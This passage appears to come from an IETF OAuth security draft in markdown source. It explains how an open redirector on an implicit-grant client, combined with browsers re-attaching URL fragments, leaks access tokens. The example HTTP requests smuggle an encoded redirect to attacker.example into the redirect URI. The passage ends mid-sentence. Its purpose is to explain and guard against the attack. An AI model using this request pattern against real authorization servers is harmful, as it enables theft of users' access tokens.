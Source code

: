 Additionally, implicit clients can be subject to a further kind of
attack. It utilizes the fact that user agents re-attach fragments to
the destination URL of a redirect if the location header does not
contain a fragment (see [@!RFC7231], Section 9.5). The attack
described here combines this behavior with the client as an open
redirector (see (#open_redirector_on_client)) in order to get access to access tokens. This allows
circumvention even of very narrow redirect URI patterns, but not strict URL
matching.
   
Assume the registered URL pattern for client `s6BhdRkqt3` is
`https://client.somesite.example/cb?*`, i.e., any parameter is allowed
for redirects to `https://client.somesite.example/cb`. Unfortunately,
the client exposes an open redirector. This endpoint supports a
parameter `redirect_to` which takes a target URL and will send the
browser to this URL using an HTTP Location header redirect 303.

The attack can now be conducted as follows:
  
First, and as above, the attacker needs to trick the user into opening
a tampered URL in his browser that launches a page under the
attacker's control, say `https://www.evil.example`.
    
Afterwards, the website initiates an authorization request that is
very similar to the one in the attack on the code flow. Different to
above, it utilizes the open redirector by encoding
`redirect_to=https://attacker.example` into the parameters of the
redirect URI and it uses the response type "token" (line breaks for display only):
  
    GET /authorize?response_type=token&state=9ad67f13
        &client_id=s6BhdRkqt3
        &redirect_uri=https%3A%2F%2Fclient.somesite.example
         %2Fcb%26redirect_to%253Dhttps%253A%252F
         %252Fattacker.example%252F HTTP/1.1
    Host: server.somesite.example
        
Now, since the redirect URI matches the registered pattern, the
authorization server permits the request and sends the resulting access
token in a 303 redirect (some response parameters omitted for
readability):

    HTTP/1.1 303 See Other
    Location: https://client.somesite.example/cb?
              redirect_to%3Dhttps%3A%2F%2Fattacker.example%2Fcb
              #access_token=2YotnFZFEjr1zCsicMWpAA&...
     
At example.com, the request arrives at the open redirector. The endpoint will
read the redirect parameter and will issue an HTTP 303 Location header
redirect to the URL `https://attacker.example/`.
  
    HTTP/1.1 303 See Other
    Location: https://attacker.example/
        
Since the redirector at client.somesite.example does not include a
fragment in the Location header, the user agent will re-attach the
original fragment `#access_token=2YotnFZFEjr1zCsicMWpAA&amp;...` to
the URL and will navigate to the following URL:
    